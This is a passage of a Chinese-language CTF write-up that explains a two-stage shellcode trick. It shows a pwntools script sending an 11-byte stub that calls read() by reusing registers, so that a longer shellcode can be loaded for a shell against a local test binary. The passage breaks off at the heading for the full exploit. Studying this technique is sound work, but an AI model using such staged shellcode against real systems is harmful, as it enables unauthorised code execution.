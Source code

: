 此时我们要构造出构造函数 read(0,0x20240000,len)

可以看到 rax 的值符合 rsi 所需参数，r10 和 r11 符合我们需要的 rdx 参数

可以构造如下 shellcode

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```

[![](assets/1708940669-ce80c5aa03ba9500048a253e1ed9a37e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205750-267df04e-d24b-1.png)

长度为 0xb 字节我们即可构造一个 read 从而读入足够长度的 shellcode 来 getshell

完整 exp：
